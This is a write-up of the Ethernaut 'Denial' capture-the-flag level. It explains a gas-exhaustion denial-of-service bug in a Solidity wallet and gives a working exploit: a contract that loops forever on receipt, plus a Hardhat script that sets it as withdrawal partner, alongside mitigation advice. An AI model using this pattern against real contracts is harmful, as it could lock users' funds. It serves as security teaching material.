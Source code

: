 ```yaml
---
title: Ethernaut #20 Denial
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Denial challenge writeup
---
```


## Denial

### Challenge

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Background

This challange is a bit consfusing, not in a way of solving it, but in the wording of the challenge and the setup of it. In general the final goal is to perform a denial of service attack on the `withdraw` function, however, even after peforming the attack the owner could bypass it with little to no difficulty. But in any case, this was the challange so it will be tackled.

As the comment in the challange code itself mentions, the `call` function will not `revert` the caller if the calle `revert`s. This means that we cannot perform deny the service simply by reverting. We can however, consume all the available gas and force the entire execution to `revert` with an `outOfGas` exception.

Even though I did not like the context of the challange though, I did learn something unique after finishing this challenge.

### Attack

Create a contract that will consume an infinite amount of gas when receiving funds. This can be achieved by having an infinite loop in the `receive` function. 

* Create a contract that goes into an infite loop when receiving funds.
* Set the contract as the partner

#### DenialSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract DenialSolve {

    constructor() public {}

    receive() external payable {
        while (true) {}
    }
}
```

#### denial-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    denialAddress = "0x8705dDC7eAD886861Cd2EF45155A5f0835A57b57";
    contract = await ethers.getContractAt("Denial", denialAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    DenialSolve = await ethers.getContractFactory("DenialSolve");
    denialSolve = await DenialSolve.deploy();
    await denialSolve.deployed();

    console.log("Level address: " + contract.address)

    // set contract as partner
    tx = await contract.connect(account).setWithdrawPartner(denialSolve.address)
    receipt = await tx.wait()
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/denial-solve.js --network rinkeby
Level address: 0x8705dDC7eAD886861Cd2EF45155A5f0835A57b57
```

### Success Message

This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

Note: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.

### Post Challenge

While reading the challange I noticed it mentioned that it should fail for 1M gas or less, but it seemed that this was not really a requirement. At least I could not see why. I thought that doing this is again pretty straing forward. I could simply check the remaining gas while in the loop or even pre-calculate the gas consumption and make sure it would consume at least enough to `revert` a transaction with 1M gas with an `outOfGas` exception.

Then after I read the `Success Message` I realized that the reason there is such a limit is because call will send at most 63/64 units of gas to the callee. This means that if the remaining 1/64 is enough to execute the parent code, then even with an infinite loop, the function would still succeed. This is because the inifinte loop would consume the entire 63/64 of the gas, `revert` with an `outOfGas` exception, and return execution to the caller. Since its a `call` function the revert would not happen in the caller, and since we assumed that 1/64 is enought to finish the parent execution the transaction would finish normally.
